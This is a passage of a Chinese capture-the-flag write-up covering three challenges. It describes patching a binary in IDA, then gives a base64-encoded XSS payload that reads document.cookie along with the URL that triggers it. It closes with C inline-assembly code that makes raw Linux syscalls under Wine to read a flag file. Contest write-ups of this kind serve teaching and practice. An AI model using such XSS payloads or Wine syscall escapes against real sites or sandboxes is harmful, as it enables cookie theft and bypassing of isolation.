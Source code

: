拖进 IDA，不难发现，`pfnSubclass` 就是把按钮移走的函数，可以把这个条件判断改掉。

以及 `sub_401510` 就是输出 flag 的函数，把 114514 同样改掉。之后再运行就能得到 flag 了。

## 微积分计算小练习

简单 xss。

```python
> base64.b64encode(b'0:<img src=2 onerror=\'document.getElementById("greeting").innerHTML=document.cookie;\'>')
b'MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4='
```

http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0yIG9uZXJyb3I9J2RvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJncmVldGluZyIpLmlubmVySFRNTD1kb2N1bWVudC5jb29raWU7Jz4=

## 杯窗鹅影

Wine 里面可以直接通过 `syscall` 来执行 Linux 的系统调用。

Flag1：

```c
#include <stdio.h>

char fn[100]="/flag1",buf[1001];
long long fd;

int main() {
    printf("Hello, world!\n");
    __asm volatile(
        "movq %1,%%rdi\n"
        "movq $2,%%rax\n"
        "movq $0,%%rsi\n"
        "movq $0,%%rdx\n"
        "syscall\n"
        "movq %%rax,%0\n"
        :"=r"(fd):"r"(fn):"rax","rsi","rdi","rdx"
    );
    printf("fd=%d\n",fd);
    printf("%02x%02x\n",(unsigned char)(buf[0]),(unsigned char)(buf[1]));
    __asm volatile(
        "movq %0,%%rsi\n"
        "movq %1,%%rdi\n"
        "movq $0,%%rax\n"
        "movq $1000,%%rdx\n"
        "syscall\n"
        ::"r"(buf),"r"(fd):"rax","rsi","rdi","rdx"
    );
    printf("%02x%02x\n",(unsigned char)(buf[0]),(unsigned char)(buf[1]));
    buf[1000]=0;
    puts(buf);
    return 0;
}
```
